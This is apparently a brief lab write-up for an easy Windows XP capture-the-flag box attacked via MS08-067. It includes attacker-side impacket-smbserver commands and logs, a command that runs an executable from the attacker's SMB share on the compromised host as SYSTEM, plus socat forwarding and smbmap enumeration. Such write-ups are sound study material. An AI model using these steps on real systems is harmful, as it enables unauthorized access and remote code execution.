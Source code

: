 
Box: Windows
Level: Easy

| **INDEX**                            |
| ------------------------------------ |
| 1. impacket-smbserver                |
| 2. socat                             |
| 3. iptables                          |
| 4. smb exploit using ms08_067_netapi |


I was able to start the smbserver using the following command
```
$ impacket-smbserver a /usr/share/windows-resources/binaries/
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.4,1033)
[*] AUTHENTICATE_MESSAGE (\,LEGACY)
[*] User LEGACY\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[-] TreeConnectAndX not found WHOAMI.EXE
[-] TreeConnectAndX not found WHOAMI.EX
[*] Closing down connection (10.10.10.4,1033)
[*] Remaining connections []
[*] Incoming connection (10.10.10.4,1036)
[*] AUTHENTICATE_MESSAGE (\,LEGACY)
[*] User LEGACY\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa

```

This was to host whoami.exe on kali machine. On a target machine, I ran the following command to check the username. 

```
\\10.10.16.5\a\whoami.exe
\\10.10.16.5\a\whoami.exe
NT AUTHORITY\SYSTEM

```

This was the Windows XP box. Easy to pwn. I failed to fireout how to setup a proxy that i can monitor when the payload is being sent on port 445. I tried socat and iptables but it didn't workl

I setup an iptable rule to forward all the traffic received on port 4444 to my burp 8080 but didn't work. I also tried to use 
```
socat TCP-LISTEN:4444,fork TCP:127.0.0.1:8080
```

The above command listen on port 4444 and forward the traffic to burp on port 8080. Didn't work. 

##### SMB Null Auth
```
smbmap -H <IP>
```